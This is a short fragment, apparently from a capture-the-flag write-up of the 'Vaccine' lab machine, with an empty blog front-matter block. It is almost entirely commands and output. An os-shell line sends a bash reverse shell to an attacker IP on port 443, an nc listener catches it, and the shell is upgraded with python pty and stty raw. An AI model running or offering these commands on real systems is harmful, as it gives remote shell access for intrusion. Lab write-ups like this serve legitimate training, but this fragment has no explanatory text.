```yaml
---
title: 
categories: [, Basic]
tags: []
image:
    path: /
---
```



```
os-shell> bash -c 'sh -i >& /dev/tcp/10.10.14.175/443 0>&1'
```


```
┌──(root㉿kali)-[/home/user]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.175] from (UNKNOWN) [10.129.97.79] 51248
sh: 0: can't access tty; job control turned off
$ ls
```

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'    
postgres@vaccine:/var/lib/postgresql$

postgres@vaccine:/var/lib/postgresql$ export TERM=xterm
export TERM=xterm
```

```
postgres@vaccine:/var/lib/postgresql$ ^Z
zsh: suspended  nc -lnvp 443
```


┌──(root㉿kali)-[/home/user]
└─# stty raw -echo ; fg
[15]    continued  nc -lnvp 443

postgres@vaccine:/var/lib/postgresql$